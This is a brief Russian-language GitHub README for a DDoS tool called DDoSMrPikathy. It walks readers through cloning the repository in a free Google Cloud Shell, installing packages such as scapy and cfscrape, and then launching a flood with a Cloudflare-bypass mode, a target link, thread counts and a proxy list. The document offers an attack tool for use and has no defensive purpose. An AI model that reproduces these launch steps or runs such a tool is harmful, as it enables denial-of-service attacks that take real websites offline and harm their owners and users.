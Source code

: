 # DDoSMrPikathy
Данный скрипт не мой но он мной изменен
Для работы данного скрипта вам нужно будет перейти на бесплатный SHELL
- https://shell.cloud.google.com

Написать следующие команды:

- git clone https://github.com/MrPikathy/DDoSMrPikathy.git
- ls
- cd DDoSMrPikathy
- pip3 install icmplib requests pysocks cfscrape scapy
- python3 start.py

Запуск ддоса:

- python3 start.py CFB Ссылка 1 1000 http.txt 1000 1000
